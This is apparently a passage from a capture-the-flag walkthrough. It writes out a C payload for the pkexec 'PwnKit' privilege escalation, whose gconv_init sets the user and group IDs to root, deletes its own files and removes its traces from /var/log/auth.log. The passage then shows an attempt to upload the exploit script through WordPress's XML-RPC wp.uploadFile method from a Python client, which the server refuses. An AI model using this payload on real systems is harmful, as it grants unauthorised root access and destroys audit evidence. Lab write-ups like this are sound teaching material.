 

    cat > pkwner/pkwner.c <<- EOM
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    void gconv() {}
    void gconv_init() {
      printf("hello");
      setuid(0); setgid(0);
            seteuid(0); setegid(0);
      system("PATH=/bin:/usr/bin:/usr/sbin:/usr/local/bin/:/usr/local/sbin;"
             "rm -rf 'GCONV_PATH=.' 'pkwner';"
             "cat /var/log/auth.log|grep -v pkwner >/tmp/al;cat /tmp/al >/var/log/auth.log;"
             "id");
            exit(0);
    }
    EOM



#### Upload

There is a `wp.uploadFile` method in WordPress XML-RPC which I found the
general syntax for
[here](https://gist.github.com/georgestephanis/5681982). I couldn't find
it in the
[docs](https://python-wordpress-xmlrpc.readthedocs.io/en/latest/index.md)
for the Python client, but it is in the
[code](https://github.com/maxcutler/python-wordpress-xmlrpc/blob/7ac0a6e9934fdbf02c2250932e0c026cf530d400/wordpress_xmlrpc/methods/media.py#L39).
There's also a [test for uploading a
file](https://github.com/maxcutler/python-wordpress-xmlrpc/blob/7ac0a6e9934fdbf02c2250932e0c026cf530d400/tests/test_media.py#L35),
which I can use as a model.

In the same Python terminal I've been working out of (with a client
already connected), I'll import `media`, and then create a `data`
object:



    >>> from wordpress_xmlrpc.methods import media
    >>> with open('pkwner.sh', 'r') as f:
    ...     script = f.read()
    ... 
    >>> data = { 'name': 'pkwner.sh', 'bits': script, 'type': 'text/plain' }



On sending this, there's an error:



    >>> client.call(media.UploadFile(data))
    Traceback (most recent call last):
    ...[snip]...
    xmlrpc.client.Fault: <Fault 500: 'Could not write file pkwner.sh (Sorry, you are not allowed to upload this file type.).'>
